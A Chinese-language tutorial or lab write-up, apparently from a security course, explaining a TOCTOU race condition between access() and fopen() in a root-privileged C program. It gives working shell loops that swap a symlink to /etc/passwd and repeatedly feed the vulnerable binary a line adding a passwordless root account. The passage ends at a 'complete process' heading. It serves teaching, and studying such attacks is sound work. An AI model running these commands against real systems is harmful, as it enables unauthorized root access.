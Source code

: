 ```c
    } else {
        printf("无权限！\n");
    }
    return 0;
}
```

这个 c 文件的作用本身是编写一个 `.ini` 配置文件, 但是它具有 root 身份运行的功能, 这是一个非常明显的攻击面。

实际上这个程序会从上到下执行 `main()` 函数: 其中, 在 `access()` (检查权限) 和 `fopen()` (打开文件) 这期间存在一个微小的时间窗口。可以利用这个非常小的时间窗口, 打开一个软连接将这个文件掉包为其他文件; 由于这个文件是以 root 权限打开的, 掉包成任何文件都有权限编辑, 包括 `/etc/passwd` 文件。

#### 攻击步骤

1. 在 `/tmp` 或任意有写入权限的文件夹准备一个恶意文件, 例如:

```bash
# 创建普通文件, 随便塞点东西
touch /tmp/userfile    
echo "userfile" > /tmp/userfile

# 先让 config 指向这个文件
ln -s /tmp/userfile /tmp/config.ini   
```

2. 发动攻击, 启动两个并行的线程, 

-   线程 I : 一直切换软连接的目标

```bash
while true; do
  # 指向安全文件
  ln -sf /tmp/userfile /tmp/config.ini   

  # 指向敏感文件
  ln -sf /etc/passwd /tmp/config.ini      
done
```

> 注意: 当 `config.ini` 指向 `user` 无权读写的文件 (`passwd`) 时, 对  `config.ini` 做读写访问也会被拒绝, 但是更改链接目标仍然是可行的, 这也是这个攻击能成功的基础之一。

-   线程 II:  持续运行漏洞程序

```bash
while true; do
  # 往 passwd 里面写一个无密码的 root 账户 test
  echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
done
```

通常来说这个过程会失败, 但是攻击者只需要在后台等待命中即可, 也就是线程 I 在检查后瞬间将 `/tmp/config.ini` 切换到 `/etc/passwd` 时, 系统就会创建一个有 root 权限的无密码账户 `test`, 自此提权完成。

---

#### 完整流程

